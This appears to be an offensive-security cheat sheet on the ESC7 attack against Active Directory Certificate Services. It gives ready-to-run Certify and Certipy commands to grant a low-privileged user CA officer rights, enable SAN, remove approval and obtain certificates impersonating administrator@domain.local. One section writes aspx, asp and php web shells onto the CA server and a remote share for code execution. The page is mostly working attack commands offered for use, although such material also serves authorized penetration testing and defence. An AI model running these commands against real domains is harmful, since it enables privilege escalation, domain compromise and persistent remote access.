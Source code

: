 # Active Directory - Certificate ESC7

## ESC7 - Vulnerable Certificate Authority Access Control

**Exploitation**

* Detect CAs that allow low privileged users the `ManageCA`  or `Manage Certificates` permissions

    ```ps1
    Certify.exe find /vulnerable
    # or
    certipy find -enabled -u user@domain.local -p password -dc-ip 10.10.10.10

    # add "Manage Certificates" privilege
    certipy ca -ca 'DOMAIN-CA' -username user@domain.local -p GoldCrown -add-officer user -dc-ip 10.10.10.10 -target-ip 10.10.10.11
    ```

* Change the CA settings to enable the SAN extension for all the templates under the vulnerable CA (ESC6)

    ```ps1
    Certify.exe setconfig /enablesan /restart
    ```

* Request the certificate with the desired SAN.

    ```ps1
    Certify.exe request /template:User /altname:super.adm
    ```

* Grant approval if required or disable the approval requirement

    ```ps1
    # Grant
    Certify.exe issue /id:[REQUEST ID]
    # Disable
    Certify.exe setconfig /removeapproval /restart
    ```

**Exploitation 2**:

Alternative exploitation from **ManageCA** to **RCE** on ADCS server:

```ps1
# Get the current CDP list. Useful to find remote writable shares:
Certify.exe writefile /ca:SERVER\ca-name /readonly

# Write an aspx shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

# Write the default asp shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:c:\inetpub\wwwroot\shell.asp

# Write a php shell to a remote web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\share\shell.php /input:C:\Local\path\shell.php
```

**Exploitation 3**:

```ps1
# enable SubCA template
certipy ca -ca 'DOMAIN-CA' -enable-template 'SubCA' -username user@domain.local -p password -dc-ip 10.10.10.10 -target-ip 10.10.10.11

# request a certificate based on subCA template
certipy req -ca 'DOMAIN-CA' -username user@domain.local -p password -dc-ip 10.10.10.10 -target-ip 10.10.10.11 -template SubCA -upn administrator@domain.local

# issue failed certificate request
certipy ca -ca 'DOMAIN-CA' -issue-request 7 -username user@domain.local -p password -dc-ip 10.10.10.10 -target-ip 10.10.10.11

# retrieve the issued certificate
certipy req -ca 'DOMAIN-CA' -username user@domain.local -p password -dc-ip 10.10.10.10 -target-ip 10.10.10.11 -retrieve 7
```

## References

* [AD CS: weaponizing the ESC7 attack - Kurosh Dabbagh - 26 January, 2022](https://www.blackarrow.net/adcs-weaponizing-esc7-attack/)
* [GOAD - part 14 - ADCS 5/7/9/10/11/13/14/15 - Mayfly - March 10, 2025](https://mayfly277.github.io/posts/ADCS-part14/)
